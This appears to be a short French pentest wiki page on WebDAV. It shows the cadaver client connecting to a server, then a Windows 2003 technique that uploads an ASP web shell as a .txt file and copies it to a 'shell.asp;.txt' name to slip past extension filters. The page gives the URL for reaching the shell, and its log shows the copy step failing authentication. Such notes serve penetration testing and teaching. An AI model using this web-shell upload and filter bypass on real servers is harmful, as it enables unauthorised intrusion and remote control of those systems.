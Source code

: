 ```yaml
---
title: WebDAV
permalink: /WebDAV/
---
```


Outils
------

### cadaver

L'outil cadaver permet d'intéragir avec WebDAV:

``` bash
cadaver 192.168.31.229
```

Exploitation
------------

### Sous Windows 2003

Il est possible d'uploader un shell ASP et de bypasser les restrictions sur les extensions:

``` text
dav:/> put shell.asp shell.txt
Uploading shell.asp to `/shell.txt':
Progress: [=============================>] 100.0% of 38013 bytes succeeded.
dav:/> copy shell.txt shell.asp;.txt
Copying `/shell.txt' to `/shell.asp%3b.txt':  authentication failed.
```

Puis on accéde au shell via <http://192.168.31.229/shell.asp%3b.txt>.

Ressources
----------

-   [Article from Carnal0wnage](http://carnal0wnage.attackresearch.com/2010/05/more-with-metasploit-and-webdav.html)

[Catégorie:Technologies](/Catégorie:Technologies "wikilink")